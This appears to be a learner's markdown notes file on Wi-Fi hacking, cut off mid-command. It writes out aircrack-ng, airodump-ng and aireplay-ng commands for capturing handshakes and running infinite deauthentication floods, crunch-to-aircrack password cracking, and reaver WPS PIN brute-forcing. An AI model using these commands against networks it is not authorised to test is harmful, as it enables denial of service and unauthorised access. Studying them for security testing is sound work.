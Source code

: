 ## Notes on wifi hacking

- **reaver** a tool for gussing pins on router
- In wireless protocol MAC address not encrypted.

- `airmon-ng start wlan0mon 9[optional channel number]` put wireless card in monitor mode and changes wireless card name .

- `airmon-ng check wlan0mon ` check all process where may cause problem for monitoring.

- using `airmon-ng check kill` to kill problem maker processes.

- `airodump-ng wlan0mon` monitor all wireless signals in our env.

- **BSSID** is MAC address

- **PWR** is strength of signal and whatever greater is better signal. recomended is greater than -60

- `airodump-ng --bssid 08:86:30:74:22:76 -c 6[channel] --write WPAcrack[file to write handshake] wlan0mon` for capturing specific access point.

- **station** is a device that connect to the access point.

- `aireplay-ng -0 0 -a 08:86:30:74:22:76 wlan0mon` in an ifinity loop send deauthenticate packet to access point and deauthenticate each othe on the network. kind of DoS attack.
`-0` is deauthenticate attack selection.
`0` indicates to ifinity loop 
`-a 08:86:30:74:22:76` wireless MAC address.

- `crunch 11 11 -t %%%%hunder 1234567890 | aircrack-ng -w - SCAN_file.cap -e[essid] something` example of using aircrack-ng with crunch to crack the password. of course crunch man page is a good guaid to set a better setting. 

- `wash` is a tool to WiFi protect setup scan.

- there where scripts in web for gussing wifi default pin.

- in using reaver it is recomended to  default MAC address 

- example of using **reaver** ‍‍‍‍‍`reaver -i wlan0mon -b 08:86:30:74:22:76 -vv`

- changing channel of my wireless card. `iwconfig wlan0mon channel [1-14]`-

## mdk3

- `mdk3 wlan0mon 